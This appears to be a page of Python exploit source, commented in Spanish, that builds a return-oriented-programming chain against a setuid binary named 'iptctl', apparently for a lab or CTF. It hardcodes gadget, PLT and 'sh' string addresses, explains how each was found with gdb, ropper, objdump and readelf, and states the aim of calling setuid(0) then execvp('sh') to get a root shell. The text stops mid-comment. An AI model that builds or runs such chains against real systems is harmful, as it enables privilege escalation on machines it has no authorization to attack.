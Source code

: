 ```python
    
    # ========== Gadgets ROP ==========
    # Obtenidos con: gdb -q iptctl -> b *main -> r -> shell ropper --file ./iptctl --search "pop rdi"
    pop_rdi = p64(0x400de3)  # pop rdi; ret
    
    # Obtenido con: gdb -q iptctl -> b *main -> r -> shell ropper --file ./iptctl --search "pop rsi"
    pop_rsi = p64(0x400de1)  # pop rsi; pop r15; ret
    
    null = p64(0x0)  # Valor NULL (0x0)
    
    # ========== Direcciones de Funciones PLT ==========
    # Obtenido con: objdump -D iptctl | grep setuid
    # Alternativa 1: readelf -W -r iptctl | grep setuid
    # Alternativa 2: gdb -q iptctl -> info functions setuid
    setuid = p64(0x400780)  # setuid@plt
    
    # Obtenido con: objdump -D iptctl | grep execvp
    # Alternativa 1: readelf -W -r iptctl | grep execvp
    # Alternativa 2: gdb -q iptctl -> info functions execvp
    execvp = p64(0x400760)  # execvp@plt
    
    # ========== Dirección de la String "sh" ==========
    """
    Obtener la dirección de 'sh' string en el binario (múltiples métodos):
    
    Método 1 (strings + grep - RECOMENDADO):
        strings -a -t x iptctl | grep "^.*sh$"
        Resultado: 40046e sh
    
    Método 2 (rabin2 de radare2):
        rabin2 -z iptctl | grep " sh$"
    
    Método 3 (ropper):
        ropper --file ./iptctl --string "sh"
    
    Método 4 (readelf para examinar sección .rodata):
        readelf -x .rodata iptctl | grep -B2 -A2 "sh"
    
    Método 5 (desde GDB - verificación):
        gdb -q iptctl
        (gdb) b *main
        (gdb) r
        (gdb) x/s 0x40046e
        Resultado: 0x40046e: "sh"
    
    Método 6 (objdump para visualizar sección .rodata):
        objdump -s -j .rodata iptctl | grep -A5 046
    
    NOTA: La dirección es estática (0x40046e) porque PIE está deshabilitado.
    """
    sh_addr = p64(0x40046e)  # String "sh" en el binario
    
    # ========== Construcción de la Cadena ROP ==========
    """
    Objetivo: ejecutar setuid(0) seguido de execvp("sh", NULL)
    
    Convención de llamada x86_64 (System V AMD64 ABI):
        RDI = primer argumento
        RSI = segundo argumento
        RDX = tercer argumento
        RCX = cuarto argumento
```